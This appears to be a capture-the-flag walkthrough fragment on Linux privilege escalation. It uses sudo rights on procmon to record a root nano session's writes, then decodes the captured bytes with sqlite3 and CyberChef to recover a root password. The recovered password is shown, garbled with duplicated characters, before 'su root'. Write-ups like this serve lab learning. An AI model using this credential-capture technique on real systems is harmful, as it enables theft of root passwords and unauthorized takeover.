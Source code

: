 ps -aef  
  
## find this pid  
  
root      570731  570726  0 03:10 pts/0    00:00:00 nano /root/automation.s  
  
  
  
sudo /usr/bin/procmon -p 570731 -e write  
  
## wait for few minutes and hit F6  
  
## there will be db file exported to your directory  
  
## transfer it to your machine and use sqlite3  
  
  
  
sqlite3 procmon.db  
  
sqlite> .output out.txt  
  
sqlite> SELECT hex(substr(arguments, 9, resultcode))  FROM ebpf  WHERE resultcode > 0  ORDER BY timestamp;  
  
  
  
## copy the out.txt to cyberchef and use from hex recipe, download the Output and cat it  
  
$ cat download.dat  
  
e  
  
e  
  
e  
  
echo Q 33EEd2##MBB | s uuddoo . //bbaacckkuupp..sshh  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
e  
  
echo Q 33EEd2##MBB |  
  
  
  
## there we can find root password, remote the duplicate  
  
su root  
  